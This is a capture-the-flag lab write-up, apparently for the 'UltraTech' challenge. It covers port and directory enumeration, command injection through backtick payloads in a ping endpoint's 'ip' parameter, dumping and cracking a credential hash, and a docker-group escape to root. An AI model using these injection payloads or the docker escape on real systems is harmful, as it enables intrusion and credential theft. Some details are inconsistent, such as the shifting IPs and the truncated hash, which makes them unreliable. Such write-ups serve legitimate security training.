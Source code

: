 # UltraTech writeup
This is an intermediate challange that requires relatively easy methods for privilegie escalation.

## Enumeration

Using `sudo nmap -Pn -p- -v -A 10.10.22.222` to find open ports on the server yields the following results:
![nmap scan](images/nmap.png)

We can easily find all of the answers for part one of this challange by inspecting of the nmap scan.
1. Which software is using the port 8081?
    * Node.js

2. Which other non-standard port is used?
    * 31331

3. Which software using this port?
    * Apache

4. Which GNU/Linux distribution seems to be used?
    * Ubuntu (Both SSH and Apache are running their Ubuntu versions)

5. The software using the port 8080 is a REST api, how many of its routes are used by the web application?
    * 2 (_http-cors and _http-title)


We try finding hidden directories on the Node.js by running `gobuster dir -u http://10.10.22.222:8081/ -w /usr/share/dirb/wordlists/big.txt  -t 30` since there seems to be something hiding here. 
![gobuster scan](images/gobuster.png)

Heading to the /auth site only tells us that `You must specify a login and a password`.
There doesn't seem like there's very much to do on this website...yet.

Doing a similar gobuster scan on the apache server at port 30331, however, reveals a lot of directories:
`gobuster dir -u http://10.10.22.222:31331 -w /usr/share/dirb/wordlists/big.txt  -t 30`
![apache server scan](images/apache_server.png)

Heading to the /js directory gives us a couple of files, where the `api.js` stands out. 
In the api.js file we see this

![api.js](images/api_js.png)

This script seems to, amongst other things, ping itself on port 8081 (which is where the Node.js site resides) to check if the API is running. The new endpoint, `http://10.10.55.254:8081/ping?ip={some_ip}`, is revealed. 

## User privileges

By going to `http://10.10.55.254:8081/ping?ip=10.10.55.254` we get this reply `PING 10.10.55.254 (10.10.55.254) 56(84) bytes of data. 64 bytes from 10.10.55.254: icmp_seq=1 ttl=64 time=0.023 ms --- 10.10.55.254 ping statistics --- 1 packets transmitted, 1 received, 0% packet loss, time 0ms rtt min/avg/max/mdev = 0.023/0.023/0.023/0.000 ms` which looks a lot like Linux' standard ping reply. This implies that the system might be vulnerable for a [command injection attack](https://owasp.org/www-community/attacks/Command_Injection). An inline execution is performed when a command is surrounded by backticks (`).

Thus by sending the argument ``` `ls` ``` to the server, we first execute the ls command, and then send the result to the ping command. By going to ``` http://10.10.55.254:8081/ping?ip=`ls` ``` we receive this reply from the server. `ping: utech.db.sqlite: Name or service not known `

1. There is a database lying around, what is its filename?
    * utech.db.sqlite

This endpoint is thus vulnerable to clommand injection attacks. 

In order to read this file you simply send this request ``` http://10.10.55.254:8081/ping?ip=`cat utech.db.sqlite` ```. 
`ping: ) ���(Mr00tf357a0c52799563c7c7b76c1e7543a32)Madmin0d0ea5111e3c1def594c1684e3b9be84: Parameter string not correctly encoded`

After some trying and failing, I find out that the username is `r00t` and MD5 hash of the password `f357a0c52799563c7c7b76c1e7543a32`.

2. What is the first user's password hash?
    * 357a0c52799563c7c7b76c1e7543a32

Using [Crackstation](crackstation.net) i find that the password for `r00t` is `n100906`.

3. What is the password associated with this hash?
    * n100906

![Crackstation](images/md5.png)

I try to connect to the server with SSH by using these credentials, and to my suprise the username and password combination actually works! User privilegies gained! :^)

## Privilege escalation

Basic enumeration as r00t does not give us anything. 
I intall `linpeas.sh` in r00t's home directory and run it. 

![Linpeas](images/linpeas.png)

r00t seems to be in the Docker group, so we better check that out more closely. There might be some Docker related commands we can use to escalate our privileges. Heading over to [GTFObin's site for docker](https://gtfobins.github.io/gtfobins/docker/) we see that the `docker run -v /:/mnt --rm -it bash chroot /mnt sh` can be used to escape restricted shells and gain root access.

![Rooted!](images/root.png)

Rooted! :^) 
